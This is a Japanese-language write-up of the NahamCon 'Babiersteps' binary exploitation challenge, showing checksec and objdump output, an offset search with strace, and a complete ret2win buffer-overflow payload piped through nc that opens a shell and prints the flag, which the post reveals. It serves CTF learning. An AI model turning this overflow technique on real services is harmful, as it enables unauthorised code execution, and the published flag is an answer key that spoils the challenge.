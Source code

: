 # Babiersteps:Binary Exploitation:50pts
Baby steps! One has to crawl before they can run.  

**Connect with:**  
```
nc challenge.nahamcon.com 30523
```

**Attachments:** [babiersteps](babiersteps)  

# Solution
ncの接続先とバイナリが渡される。  
実行すると以下のようであった。  
```bash
$ ./babiersteps
Everyone has heard of gets, but have you heard of scanf?
123456789
```
セキュリティ機構は以下の通りであった。  
```bash
$ checksec ./babiersteps
[*] '/babiersteps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
BOFを行えばよいのだろうか。  
objdumpで見るとwinなる関数があった。  
```bash
$ objdump -D ./babiersteps

./babiersteps:     file format elf64-x86-64
~~~
00000000004011c9 <win>:
  4011c9:       f3 0f 1e fa             endbr64
  4011cd:       55                      push   %rbp
  4011ce:       48 89 e5                mov    %rsp,%rbp
  4011d1:       ba 00 00 00 00          mov    $0x0,%edx
  4011d6:       be 00 00 00 00          mov    $0x0,%esi
  4011db:       48 8d 3d 26 0e 00 00    lea    0xe26(%rip),%rdi        # 402008 <_IO_stdin_used+0x8>
  4011e2:       e8 a9 fe ff ff          callq  401090 <execve@plt>
  4011e7:       90                      nop
  4011e8:       5d                      pop    %rbp
  4011e9:       c3                      retq
~~~
```
内部ではexecを呼んでいるようだ。  
BOFでここへリターンすることを狙う。  
オフセットを調査する。  
```bash
$ python -c 'print("A"*120+"BCD")' | strace -i ./babiersteps
~~~
[00007f7df8cbb002] read(0, "A", 1)      = 1
[00007f7df8cbb002] read(0, "A", 1)      = 1
[00007f7df8cbb002] read(0, "B", 1)      = 1
[00007f7df8cbb002] read(0, "C", 1)      = 1
[00007f7df8cbb002] read(0, "D", 1)      = 1
[00007f7df8cbb002] read(0, "\n", 1)     = 1
[00007f7d00444342] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7f7d00444342} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```
120のようだ。  
以下のようにBOFでwinへ飛ばしてやればよい。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc9\x11\x40\x00\x00\x00\x00\x00";cat) | nc challenge.nahamcon.com 30523
Everyone has heard of gets, but have you heard of scanf?
ls
babiersteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
cat flag.txt
flag{4dc0a785da36bfcf0e597917b9144fd6}
```
シェルが得られ、ファイルを読み取るとflagが書かれていた。  

## flag{4dc0a785da36bfcf0e597917b9144fd6}